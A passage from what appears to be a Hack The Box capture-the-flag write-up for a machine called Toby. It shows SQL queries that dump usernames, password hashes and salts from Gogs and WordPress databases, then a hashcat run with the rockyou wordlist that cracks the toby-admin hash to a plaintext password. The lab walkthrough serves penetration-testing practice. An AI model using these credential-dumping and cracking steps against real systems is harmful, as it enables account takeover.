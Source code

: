     ...[snip]...
    | num_members          | int           | YES  |     | NULL    |                |
    +----------------------+---------------+------+-----+---------+----------------+
    32 rows in set (0.093 sec)
    

I’ll dump the interesting bits:

    
    
    MySQL [gogs]> select id,name,passwd,salt from user;                                                                                     
    +----+------------+------------------------------------------------------------------------------------------------------+------------+ 
    | id | name       | passwd                                                                                               | salt       | 
    +----+------------+------------------------------------------------------------------------------------------------------+------------+ 
    |  2 | toby-admin | 8a611020ad6c56ffd791bf334d32d32748baae42975259607ce268c274a42958ad581686151fe1bb0b736370c82fa6afebcf | PlCxfl4BrQ | 
    +----+------------+------------------------------------------------------------------------------------------------------+------------+ 
    1 row in set (0.091 sec)  
    

Only one user, toby-admin.

I’ll take a similar path in the WP database to find two more users with
hashes:

    
    
    MySQL [wordpress]> select * from wp_users;
    +----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
    | ID | user_login | user_pass                          | user_nicename | user_email          | user_url            | user_registered     | user_activation_key | user_status | display_name |
    +----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
    |  1 | toby       | $P$Bc.z9Qg7LCeVxEK8MxETkfVi7FdXSb0 | toby          | toby@toby.htb       | http://192.168.0.43 | 2021-07-08 12:00:13 |                     |           0 | toby         |
    |  2 | toby-admin | $P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0 | toby-admin    | toby-admin@toby.htb | http://.            | 2021-08-28 18:17:33 |                     |           0 | . .          |
    +----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
    2 rows in set (0.090 sec)
    

### Hashcat

I’ll use Hashcat to break the WordPress hashes. They look like WordPress Md5
from the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
list. toby-admin’s breaks pretty quickly:

    
    
    $ hashcat -m 400 --user wordpress-hashes /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    $P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0:tobykeith1    
    ...[snip]...
    